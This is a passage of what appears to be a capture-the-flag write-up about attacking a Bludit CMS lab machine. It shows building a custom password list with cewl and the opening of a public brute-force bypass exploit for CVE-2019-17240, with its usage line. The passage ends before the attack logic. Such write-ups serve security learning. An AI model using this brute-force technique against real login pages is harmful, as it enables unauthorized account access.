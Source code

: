 There was no wrong with the script but maybe with the password list
tried some common names in seclist but didn't work then after sometime I realised that there might be a customised wordlist(also with help of my friend v1per).Tried making one with cewl 
```cewl http://10.10.10.191 > pass.txt```
then ran the script
***BLUDIT-CRED Bruteforce**
```
!/usr/bin/python3

# Exploit
## Title: Bludit <= 3.9.2 - Bruteforce Mitigation Bypass
## Author: ColdFusionX (Mayank Deshmukh)
## Author website: https://coldfusionx.github.io
## Date: 2020-10-19
## Vendor Homepage: https://www.bludit.com/
## Software Link: https://github.com/bludit/bludit/archive/3.9.2.tar.gz
## Version: <= 3.9.2

# Vulnerability
## Discoverer: Rastating
## Discoverer website: https://rastating.github.io/
## CVE: CVE-2019-17240 https://nvd.nist.gov/vuln/detail/CVE-2019-17240
## References: https://rastating.github.io/bludit-brute-force-mitigation-bypass/
## Patch: https://github.com/bludit/bludit/pull/1090

'''
Example Usage:
- ./exploit.py -l http://127.0.0.1/admin/login.php -u user.txt -p pass.txt 
'''

import requests
import sys
import re
import argparse, textwrap
from pwn import *
